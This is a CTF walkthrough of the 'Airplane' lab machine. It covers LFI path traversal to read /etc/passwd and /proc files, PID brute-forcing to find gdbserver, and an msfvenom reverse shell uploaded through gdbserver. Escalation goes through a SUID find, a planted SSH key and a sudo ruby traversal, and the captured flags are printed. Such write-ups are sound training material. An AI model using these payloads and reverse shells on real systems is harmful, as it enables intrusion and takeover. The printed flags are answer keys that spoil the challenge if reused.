 ```yaml
---
sticker: emoji//2708-fe0f
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 6048 | X11?    |
| 8000 | HTTP    |



# RECONNAISSANCE
---

We need to add `airplane.thm` to `/etc/hosts`:

```bash
echo '10.10.62.55 airplane.thm' | sudo tee -a /etc/hosts
```

Once we enter the website, we can notice the following:

![](../images/Pasted%20image%2020250422135925.png)

The url seems suspicious, it seems as it could be vulnerable to LFI, let's try reading `/etc/passwd`:


![](../images/Pasted%20image%2020250422140134.png)

As we can see, if we use `path traversal`, we can read `/etc/passwd`, since this server is vulnerable to `LFI`, we can test other stuff, for example, let's try reading
`proc/self/environ`:

```
../../../../../proc/self/environ
```

![](../images/Pasted%20image%2020250422141057.png)

We get this:

```
LANG=en_US.UTF-8
LC_ADDRESS=tr_TR.UTF-8
LC_IDENTIFICATION=tr_TR.UTF-8
LC_MEASUREMENT=tr_TR.UTF-8
LC_MONETARY=tr_TR.UTF-8
LC_NAME=tr_TR.UTF-8
LC_NUMERIC=tr_TR.UTF-8
LC_PAPER=tr_TR.UTF-8
LC_TELEPHONE=tr_TR.UTF-8
LC_TIME=tr_TR.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
HOME=/home/hudson
LOGNAME=hudson
USER=hudson
SHELL=/bin/bash
INVOCATION_ID=5da2e4a284be419f834a40bee5eeac5f
JOURNAL_STREAM=9:18702
```

Based on that, we can find the `app.py` on `/home/hudson/app/app.py`, let's try reading it:

```
../../../../..//home/hudson/app/app.py
```


![](../images/Pasted%20image%2020250422141515.png)

Not much, seems like this only tells us the way it's vulnerable to LFI, but we can keep on digging, for example, we can try reading:

```
proc/self/cmdline
```

![](../images/Pasted%20image%2020250422141742.png)

It works, based on the scan, we notice we got something else running on port `6048`, we can use the same technique to visualize what may be running on it, we need to change it to this format:

```
/proc/pid/cmdline
```

`/proc/pid/cmdline` is similar to `/proc/self/cmdline`, but instead of showing the command-line arguments of the **current process** (`self`), it reveals the command-line details of **any running process** on the system, identified by its Process ID (PID). This can be extremely useful for privilege escalation or lateral movement in a CTF or penetration testing scenario.

We need to perform brute force in order to find the different `PIDS`, we can use `ffuf` or in this case, I will use `caido` to perform the brute force, let's start by creating a file with PIDS:

```
seq 1000 > id.txt
```

Now, we can use `caido`'s automate functionality:


![](../images/Pasted%20image%2020250422150920.png)

![](../images/Pasted%20image%2020250422151532.png)

Once the scan is finished, we can filter in the following way:

```
resp.raw.ncont:"Page" AND resp.raw.cont:"gdb"
```

We can see the following:

![](../images/Pasted%20image%2020250422151516.png)

Seems like this is running `gdbserver`, let's begin exploitation.



# EXPLOITATION
---

We can use the following information:

**HackTricks**: https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-remote-gdbserver.html#upload-and-execute


We can follow this PoC to get a shell:

```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

Nice, let's do it:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf
gdb binary.elf
```

![](../images/Pasted%20image%2020250422151922.png)

We get prompted with this, we can now proceed:

```BASH
target extended-remote 10.10.251.121:6048
remote put binary.elf /home/hudson/binary.elf
set remote exec-file /home/hudson/binary.elf
nc -lvnp 4444 # Outside of the gdb prompt
run
```

If we do everything correctly, we get the connection on our listener:

![](../images/Pasted%20image%2020250422152429.png)

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](../images/Pasted%20image%2020250422152543.png)

Let's use `linpeas` to check any PE vector:

![](../images/Pasted%20image%2020250422153011.png)

There we go, we find an interesting `SUID` binary, let's search `GTFOBINS`:

![](../images/Pasted%20image%2020250422153104.png)

So, we need to do:

```
/usr/bin/find . -exec /bin/bash -p \; -quit
```

![](../images/Pasted%20image%2020250422153149.png)

We escalated to `carlos`, to make the experience more comfortable, we can create a ssh-key and put it in `authorized_keys`:

```
ssh-keygen -t rsa
```

Now, copy the contents:

```
echo "Contents of your key" >> /home/carlos/.ssh/authorized_keys
```

Once we do it, we can go into ssh using:

```
ssh carlos@airplane.thm -i airplane_rsa
```

![](../images/Pasted%20image%2020250422153822.png)

Nice, let's look around again, for example, let's check if we got `sudo` privileges:

```
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

Let's look up `GTFOBINS`:

![](../images/Pasted%20image%2020250422153927.png)

So, in order to get root shell, we can do:

```bash
echo 'exec "/bin/bash"' >> /tmp/privesc.rb
sudo /usr/bin/ruby /root/../tmp/privesc.rb
```

![](../images/Pasted%20image%2020250422154046.png)

There we go, we can finally read both flags and finish the CTF:

```
root@airplane:/home/carlos# cat user.txt
eebfca2ca5a2b8a56c46c781aeea7562
```

```
root@airplane:/home/carlos# cat /root/root.txt
190dcbeb688ce5fe029f26a1e5fce002
```

![](../images/Pasted%20image%2020250422154148.png)

